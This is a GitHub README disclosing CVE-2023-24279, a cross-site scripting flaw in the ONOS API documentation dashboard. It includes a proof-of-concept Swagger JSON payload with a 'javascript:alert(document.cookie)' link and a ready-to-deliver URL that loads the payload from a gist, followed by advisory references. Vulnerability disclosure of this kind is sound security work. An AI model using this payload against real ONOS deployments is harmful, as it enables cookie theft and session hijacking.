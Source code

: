 # CVE-2023-24279

Description
------

A cross-site scripting (XSS) vulnerability in Open Networking Foundation ONOS from version v1.9.0 to v2.7.0 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the url parameter of the API documentation dashboard.


PoC
------

PoC for CVE-2023-24279: [@edoardottt Youtube video](https://www.youtube.com/watch?v=1mSXzzwcGMM)

Vulnerable endpoint: http://localhost:8181/onos/v1/docs/

Payload: 
```json
{
  "swagger" : "2.0",
  "info" : {
    "version" : "1.0.100",
    "title" : "Swagger UI v2.2.10 XSS POC",
    "description" : "Swagger UI v2.2.10 XSS POC",
    "contact" : {
      "name" : "edoardottt",
      "url" : "javascript:alert(document.cookie)",
      "email" : "edoardott@gmail.com"
    },
  },
}
```

Malicious URL ready to be delivered: http://localhost:8181/onos/v1/docs/?url=https://gist.githubusercontent.com/edoardottt/197f4bc482eddb263c47b525268d1628/raw/49ad93f4e5832d6e6af5cf4f9962dd9bebf9f3c1/onos-xss-poc.json

References
------
- https://www.edoardoottavianelli.it/CVE-2023-24279
- https://nvd.nist.gov/vuln/detail/CVE-2023-24279
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-24279
- https://github.com/advisories/GHSA-3xmp-jwrr-8f4r
- https://www.tenable.com/cve/CVE-2023-24279
- https://www.opencve.io/cve/CVE-2023-24279

<br>

Useful links while researching for this CVE:

- https://github.com/swagger-api/swagger-ui/pull/3848
- https://github.com/swagger-api/swagger-ui/commit/f87eaaa81073a61e30ff0cedee4fd9cd2dd1fca9
- https://github.com/swagger-api/swagger-ui/commit/f87eaaa81073a61e30ff0cedee4fd9cd2dd1fca9#diff-f510249cd192f2f011846a9640aebfd0c96995e744aa55e3b1c2e541da62a9ef
- https://security.snyk.io/vuln/npm:swagger-ui:20171031
- https://security.snyk.io/vuln/npm:swagger-ui:20160721
- https://security.snyk.io/vuln/npm:swagger-ui:20160901

